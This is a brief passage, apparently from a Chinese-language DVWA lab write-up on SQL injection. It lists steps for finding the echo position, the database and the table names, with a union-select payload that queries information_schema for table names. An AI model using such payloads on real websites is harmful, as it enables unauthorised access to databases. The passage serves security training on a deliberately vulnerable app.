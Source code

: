 回显位置为2

(4)判断数据库

![image-20230729124352619](imgs/ed75ba621cbef5b8be5351633edb0456_MD5.png)

（5）判断表名

```sql
1  union select 1,group_concat(table_name) from  information_schema.tables where table_schema=database()#
```

![image-20230729125720152](./DVWA.assets/image-20230729130759032.png)
